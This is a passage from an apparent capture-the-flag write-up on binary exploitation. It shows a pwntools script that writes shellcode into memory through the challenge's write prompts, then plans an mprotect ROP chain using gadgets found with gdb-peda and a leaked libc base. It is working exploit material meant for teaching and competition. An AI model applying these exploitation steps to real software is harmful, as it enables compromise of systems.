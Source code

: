 ```py
 mov eax, 1;
 syscall ;""")
if len(shellcode) % 4 != 0: shellcode += b'\x00'*(4 - (len(shellcode) % 4)) # padding
SHELLCODE_ADDR = 0x404600

log.info("writing shellcode")
i = 0
while True:
    sc = shellcode[i*4:i*4+4]
    if len(sc) == 0:
        break
    p.recvuntil(b'where?\n')
    p.sendline(str(ADDR_PUTS_GPLT).encode('utf-8'))
    p.recvuntil(b'where?\n')
    p.sendline(str(SHELLCODE_ADDR+i*4).encode('utf-8'))
    p.recvuntil(b'What?\n')
    p.sendline(str(int.from_bytes(sc, 'little')).encode('utf-8'))
    p.recvuntil(b'challenge?\n')
    p.sendline(b'nobody asked')
    i += 1
log.info("shellcode done writing")
pause()
```

Next is to `mprotect` our shellcode. We'd need to execute `mprotect(0x404000, len, 5 or 7)`. There's no function to hijack where we can control all 3 arguments, so I started thinking about using ROP to set up the arguments. Since main doesn't return, we'd have to hijack `exit` on the last iteration to point to the start of our rop chain, and then continue to the rest of the chain in the `0x80` stack read.

For this rop chain, we need:
```asm
pop rdi; first parameter
pop rsi; second parameter
pop rdx; third paramether
call mprotect
call 0x404600
```
Using ropsearch, we can find all the required gadgets:
```asm
gdb-peda$ ropsearch 'pop rdi'
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x0040143b : (b'5fc3')  pop rdi; ret
gdb-peda$ ropsearch 'pop rsi'
Searching for ROP gadget: 'pop rsi' in: binary ranges
0x00401439 : (b'5e415fc3')      pop rsi; pop r15; ret
gdb-peda$ ropsearch 'pop rdx'
Searching for ROP gadget: 'pop rdx' in: binary ranges
Not found
gdb-peda$ ropsearch 'pop rdx' libc
Searching for ROP gadget: 'pop rdx' in: libc ranges
0x00007fa32594d6d6 : (b'5a5bc3')        pop rdx; pop rbx; ret
```
Normally, the `pop rdx` gadget would be inaccessible because the location of libc is random, but since we leaked its base address earlier, we can use it. In this specific instance, libc's base address was `0x00007fa3257eb000`, and subtracting it from the address of the gadget revealed that the gadget is always at `LIBC_BASE + 0x1626d6`.

